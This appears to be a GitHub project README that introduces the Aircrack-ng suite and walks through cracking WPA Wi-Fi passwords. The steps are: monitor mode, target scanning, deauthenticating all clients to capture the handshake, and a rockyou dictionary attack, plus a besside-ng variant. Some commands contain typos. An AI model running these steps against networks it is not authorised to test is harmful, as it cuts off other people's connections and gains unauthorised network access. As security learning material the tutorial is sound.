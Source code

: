 # Aircrack-ng Suite

Aircrack-ng is an open source tool for cracking and securing wireless network.  It is all in one suite allows you to keep an eye on WiFi security, and capture data packets. WiFi cards can be captured and injected to test their performance. It can also be used by pen testers to attack and crack the WPA and WEP protocols.

It mainly focuses on four areas of wifi security:

-  **Monitoring:** Data is captured in packets and exported to text files for processing by third-party software.

-  **Attacking:**  Packet injection can be used to perform replay attacks, deauthentication, and create bogus access points, among other things.

-  **Testing:** Testing the capabilities of WiFi cards and drivers

-  **Cracking:** WEP and WPA1/WPA2 PSK.

There are several aircrack-ng modes (Click here to view) but we are using only the following modes.

- [Airmon-ng:](https://www.aircrack-ng.org/doku.php?id=airmon-ng)  It's used to switch between monitor and managed modes. The status of the interfaces can be viewed by running the airmon-ng command without any parameters. It can also list and kill programmes that may cause the wireless card to malfunction.
- [Airodump-ng:](https://www.aircrack-ng.org/doku.php?id=airodump-ng): Airdump-ng is a tool that lists all of the networks in our immediate vicinity and displays relevant information about them. It's a packet sniffer, which means it's meant to capture all of the packets that pass across our network when we're in Monitor mode. We may run it against all of the networks to gather relevant information such as the mac address, channel name, encryption type, and number of clients connected to the network, and then begin targeting the target network. We can also use it against a specific AP (access point) to collect only packets from a specific Wi-Fi network.

- [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng): Aireplay-ng is a programme that generates unnecessary wireless traffic. It can hack WEP and WPA keys when combined with aircrack-ng. It's function is to insert frames. aireplay-ng has the ability to perform a variety of powerful strikes, including the creation and capture of new IVs. [Here](https://www.aircrack-ng.org/doku.php?id=aireplay-ng) are some other forms of attacks:

- [besside-ng](https://www.aircrack-ng.org/doku.php?id=besside-ng): It is the best of both worlds. It automatically cracks WEP and WPA network. Note Wesside-ng supports only WEP but Besside-ng can support both WEP and WPA network.Besside-ng has the capability to crack all the associated WEP networks and log the WPA handshakes. And WPA handshakes can then be cracked using aircrack-ng. It is a combination of easside-ng and wesside-ng. 
	- [Easside-ng:](https://www.aircrack-ng.org/doku.php?id=easside-ng)
Easside-ng is a tool which allows to communicate via an WEP-encrypted access point (AP) without knowing the WEP key. It first identifies a network, then proceeds to associate with it, obtain PRGA (pseudo random generation algorithm) xor data, determine the network IP scheme and then setup a TAP interface so that one can communicate with the AP without requiring the WEP key. All this is done automatically.
	- [Wesside-ng:](https://www.aircrack-ng.org/doku.php?id=wesside-ng)
Wesside-ng is a tool which incorporates a number of techniques to seamlessly obtain a WEP key in minutes. It first identifies a network, then proceeds to associate with it, obtain PRGA (pseudo random generation algorithm) xor data, determine the network IP scheme, reinject ARP requests and finally determine the WEP key. All this is done automatically.

## Pre-requisites:

- **Software:** We are using Kali Linux through VMware.

- **Hardware:** Wifi adaptor is necessary to inject packets and attack Wifi. Our laptop only has only inbuilt wifi adapter, which is insufficient. To put it another way, we require a wireless adapter that supports monitor mode and packet injection. [Here](https://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles.html) is a list of compatible adapters for pen testing.

The chipset we have is the TP-LINK TL-WN722N.


<img src="https://github.com/megha-511/Aircrack-ng/blob/716796cfbd5b0d5b0b79b8e839f5a37b44827c3c/tplink.jpg" width="250" height="180" rotate="90">

However, according to the list of compatible adaptors, Version 1 is the only version that is compatible, yet we received Version 3. To enable the monitor mode in V3, we followed a few steps. [Click here to view the steps](https://github.com/megha-511/Aircrack-ng/blob/8083e818320b3b7c8485f83ef2c2c9ac05138571/Enable%20monitoring%20mode%20in%20V2_3.docx)

## 1. Crack WPA

1. 

    sudo airmon-ng wlan0
    
    iwconfig

This should show wlan0 in monitor mode.

2.

Sudo airmon-ng

Wlan0 must be changed to wlan0mon by now if not follow the steps below: ([Source)](https://www.reddit.com/r/Kalilinux/comments/nm14i5/my_wlan0_doesnt_change_to_wlan0mon_but_it_shows/)

`sudo airmon-ng stop wlan0`

`sudo Systemctl disable NetworkManager`

`sudo ip link set wlan0 down`

`sudo ip link set wlan0 name wlan0mon`

`sudo systemctl enable NetworkManager`

Now check for iwconfig it should show up wlan0mon.

3. To get the bssid of the target network and channel number: `sudo airodump wlan0mon`

4. `sudo airodump wlan0mon -d <target bssid>`

5. Wait until some connections are found

6. `sudo airodump -w wifiHack1 -c <channel_number> --bssid <target bssid> wlanomon`

  - w : write to wifiHack1 file which is used to store the 4 way handshake

7. In a separate window let’s deauthenticate all the users. When they connect back we can capture the handshake. `sudo aireplay –deauth 0 -a <bssid> wlan0mon`

8. Until new client joins the network please wait. You can see handshake on the top right corner of the screen where you hit airodump query.

9. Once handshake is captured, perform following tasks to do dictionary attack on the capture file to retrieve the wifi password.

-

sudo airmon-ng stop wlan0mon

sudo aircrack-ng wifiHack1-01.cap -w /usr/share/wordlists/rockyou.txt

That’s it! The wifi password will be cracked if it is common and simple by using dictionary attack. For complex passwords we need a strong GPU processor to crack it.

## 2. besside-ng

- How besside works?
<img src="https://github.com/megha-511/Aircrack-ng/blob/716796cfbd5b0d5b0b79b8e839f5a37b44827c3c/How%20besside-ng%20works.jpg" width="150" height="280">

- We have followed the below steps to auto capture the WPA handshake and crack using aircrack-ng:

1.  `sudo airmon-ng start wlan0mon`

2. Capture the bssid of the target network: `sudo airodump-ng wlan0mon`

3. `sudo airodump -w bessideHack -c <channel number> -d <bssid of the target> wlan0mon`

4. To autogenerate the capture file called wpa.cap: `sudo besside-ng -b <bssid>  wlan0mon`

- There is a small problem with besside as it creates malformed packets and no management frames. There is a work around for this,  we need to merge the capture files generated by airodump and the besside. [Source](https://security.stackexchange.com/questions/121636/missing-essid-from-aircrack-ng)

- `Mergecap -w merged.cap bessideHack.cap wpa.cap`

- `Wireshark merged.cap`

- Open .cap file with Wireshark: `wireshark wpa.cap`

- Right-click on the malformed packet and choose “Ignore”

- File -> Export Specified Packets

- Select “Remove Ignored Packets”

- Save the file as wpa1.pcap

6. `sudo aircrack-ng wpa1.pcap -w /usr/share/wordlists/rockyou.txt`

## Additional resources:
Frame injection: [Github](https://github.com/aircrack-ng/rtl8188eus)
[Frame Vs Packet](https://www.networkworld.com/article/3225865/ethernet-frames-and-packets-whats-the-difference.html)
Fragment and Forge: Breaking Wi-Fi Through Frame Aggregation and Fragmentation[usenix2021.pdf (mathyvanhoef.com)](https://papers.mathyvanhoef.com/usenix2021.pdf)
[4-way Handshake attack](https://netbeez.net/blog/secure-network-4-way-handshake/#:~:text=The%204-Way%20Handshake%20utilizes,Handshake%20occurs%20after%20EAP%20authentication.)

